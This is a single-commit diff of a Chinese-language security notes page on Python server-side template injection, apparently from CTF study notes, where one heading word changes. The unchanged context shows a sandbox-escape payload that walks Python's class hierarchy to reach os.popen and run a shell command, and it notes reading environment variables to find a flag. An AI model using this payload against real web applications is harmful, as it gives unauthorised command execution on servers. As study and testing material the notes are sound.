

Before and after one commit to whb54012/vscode-notes, a Markdown page: 漏洞类型/ssti/python模板注入.md, the part around the change. Rendered like a GitHub page.

Commit message:
自动提交：更新 ${2026/10/1 20:31ilenPM31e}

````diff
--- a/漏洞类型/ssti/python模板注入.md
+++ b/漏洞类型/ssti/python模板注入.md
@@ -108,7 +108,7 @@ os.environ                   # 读环境变量（常藏 flag）
 .__base__ / __mro__[1].__subclasses__()
 ```
 
-### 找到含有os的子类,用下标锁定,然后使用原方案,此时已绕过元素限制获得类属性,按照上述的获取函数方法提取popen模板即可
+### 找到含有os的类对象,用下标锁定,然后使用原方案,此时已绕过元素限制获得类属性,按照上述的获取函数方法提取popen模板即可
 
 ```
 ().__class__.__mro__[1].__subclasses__()[下标].__init__.__globals__['popen']('id').read()
````
